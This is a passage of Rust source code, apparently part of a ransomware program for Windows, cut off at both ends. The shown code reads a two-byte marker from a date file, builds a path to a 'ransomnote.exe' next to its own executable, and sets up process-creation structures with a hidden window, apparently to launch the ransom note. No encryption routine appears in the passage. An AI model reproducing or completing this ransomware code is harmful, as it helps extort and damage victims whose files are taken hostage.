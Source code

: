 ``` rust
               FILE_SHARE_READ,
               null_mut(),
               OPEN_EXISTING,
               FILE_ATTRIBUTE_NORMAL,
               null_mut(),
           );

           let mut get_date: Vec<u8> = Vec::new();
           get_date.resize(2, 0u8);
           let mut count: u32 = 0;
           ReadFile(
               date_file,
               get_date.as_ptr() as *mut _,
               2,
               &mut count,
               null_mut(),
           );

           if get_date[0] == 99 && get_date[1] == 99 {
               return false;
           }

           CloseHandle(date_file);
           let mut name: Vec<i8> = Vec::new();
           name.resize(200, 0i8);
           let length = GetModuleFileNameA(null_mut(), name.as_ptr() as *mut i8, 200);
           let mut path: Vec<u8> = Vec::new();
           for i in 0..(length - 19) as usize {
               path.push(name[i].clone() as u8);
           }

           for byte in "ransomnote.exe".as_bytes() {
               path.push(byte.clone());
           }
           let mut start_up_info: STARTUPINFOA = STARTUPINFOA {
               cb: std::mem::size_of::<STARTUPINFOA>() as u32,
               lpReserved: null_mut(),
               lpDesktop: null_mut(),
               lpTitle: null_mut(),
               dwX: 100,
               dwY: 100,
               dwXSize: 500,
               dwYSize: 500,
               dwXCountChars: 0,
               dwYCountChars: 0,
               dwFillAttribute: 0,
               dwFlags: 4 | STARTF_USESHOWWINDOW,
               wShowWindow: 0,
               cbReserved2: 0,
               lpReserved2: null_mut(),
               hStdInput: null_mut(),
               hStdOutput: null_mut(),
               hStdError: null_mut(),
           };
           let process_handle: HANDLE = null_mut();
           let thread_handle: HANDLE = null_mut();
           let mut process_info: PROCESS_INFORMATION = PROCESS_INFORMATION {
               hProcess: process_handle,
               hThread: thread_handle,
               dwProcessId: 4000,
               dwThreadId: 5000,
           };
           let mut command_line: Vec<u8> = Vec::new();
```